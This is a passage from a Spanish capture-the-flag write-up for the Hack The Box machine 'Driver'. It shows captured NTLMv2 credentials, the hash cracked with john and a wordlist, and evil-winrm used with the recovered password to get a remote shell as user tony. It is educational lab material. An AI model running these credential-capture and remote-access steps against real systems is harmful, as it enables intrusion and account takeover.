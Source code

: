 ![image](https://user-images.githubusercontent.com/67548295/155848422-6b666081-bb7b-4498-bfc8-effdb2cf8e39.png)

Y vemos que recibimos un **hash** en nuestro **servidor SMB**

```bash
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49515)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:   HIDDEN
[-] TreeConnectAndX not found SHARE
[-] TreeConnectAndX not found SHARE
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.11.106,49515)
[*] Remaining connections []
```
---

Probemos a _crackear_ este hash con `john`

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Driver/content]
└──╼ $ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXX          (tony)
1g 0:00:00:00 DONE (2022-02-26 15:31) 1.818g/s 59578p/s 59578c/s 59578C/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
¡Obtenemos una contraseña!

Sabemos que el puerto que aloja al servicio **WinRM** está abierto, asi que intentemos acceder por ahí con las credenciales que hemos obtenido.

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Driver/content]
└──╼ $ evil-winrm -u tony -p liltony -i 10.10.11.106

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> 
```

Conseguimos acceso inicial como usuario **Tony**
